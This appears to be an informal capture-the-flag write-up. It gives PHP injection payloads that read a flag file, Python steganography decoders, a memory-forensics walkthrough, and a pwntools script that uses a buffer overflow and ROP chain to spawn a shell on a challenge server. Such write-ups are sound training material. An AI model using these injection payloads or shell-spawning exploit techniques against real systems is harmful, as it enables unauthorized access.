 1) Calcualtor evaluation. 

```php
0;print(echo("head -n 5 flag"))
```

2)Calculator Revaluation 

```php
0;$filename ='../secrets1782956/flag';$handle = fopen($filename,"r");$contents = fread($handle, filesize($filename));fclose($handle);print $contents
```

3) Special Stego 1/2: Inkscape lmao

4) Stego 3: PIL/ref to github

5) Stego 4

```python
#they base64 then binary this piece of shit
from PIL import Image
import base64
#copy original encoding function
with Image.open("VirtualRealitySampleScreenshot.png") as im:
    width, height = im.size
    for i in range(1, 1920):
        extract = []
        try:
            #print(i)
            for x in range(0, width, i):
                for y in range(0, height, i):
                    pixel = list(im.getpixel((x, y)))
                    for n in range(0, 3):
                        extract.append(pixel[n]&1)
            flag = "".join([str(x) for x in extract])
            # copy stackoverflow function time
            chars = []
            for b in range(int(len(flag) / 8)):
                byte = flag[b * 8:(b + 1) * 8]
                chars.append(chr(int(''.join([str(bit) for bit in byte]), 2)))
            output = base64.b64decode(''.join(chars))
            print(output)
                
            
        except:
            continue

flag = 'IRS{Sp3c1AL_L5B_15_alwAy5_v3rY_fuN_AnD_c00l!_G00d_j0b_W3LL_d0n3!}'
```


6) Big Brother Secrets:
        Notice that 1) theres chrome and 2) theres discord open. extract discord, strings find attatchment. hint refers to google ctf 2016 chall, where memdump can be viewed in gimp as raw data. extract chrome, view in gimp, find "password" to attatchment. then lastly just extract pdf objects to find javascript. now im lazy af to decode, so just run in chrome and print out the flag. ez.
        
        
7) Dynamic Library: notice can export function/run with c++

# **BINARY EXPLOITATION**

1) simple BOF, overwrite both username/password, padding, rbp, overwrite rip. 

### Chall 2:
    -Sanity check: bof 8 chars and overwrite integer. jump to chall one (get offset from output of chall).
    -Chall one: shellcode 
```
mov edx , p32(12345678)
```
(basically lower byte since higher byte is already 0 yea)

Then essentially after that flag is given


### Part 2 (ROP/SYSCALL)

```python
from pwn import *
p =  remote("challs.sieberrsec.tech",3031)
context.log_level = 'DEBUG'
#p = process('./refresher')
#pause()

sanity = "A"*8
sanity_jump = "A"*20
p.recvuntil("Can you get through this sanity check?")
p.sendline(sanity + p32(0x73737373))
p.recvuntil("How about this? [") #chall one bois
chall_1_add = int(p.recvuntil("]").strip("]"), 16)
pie_base = chall_1_add - 0x00000000000009c5
challenge_two = pie_base +0x000000000000096d+1 #ask @throwaway right, it just works idk
p.sendline(sanity_jump + p64(challenge_two))

#part 2 Rop start

padd = "A"*8
#rdi 0x0000000000000b93 : pop rdi ; ret
#rsi pop rsi ; pop r15 ; ret
#rdx pop rdx ; syscall

rdi = pie_base + 0x0000000000000b93
rsi = pie_base + 0x0000000000000b91
rdx = pie_base + 0x0000000000000966

binsh = pie_base + 0xbe5
log.info("binsh: " + hex(binsh))

p.sendline("00000059" + "A"*8 + p64(rdi) + p64(binsh) + p64(rsi) +p64(0) + p64(0) + p64(rdx) + p64(0))
p.interactive()
```

Essentially, first 8 bytes control RAX. then next 8 pad to RIP, then just ROPgadget ur way to idk what.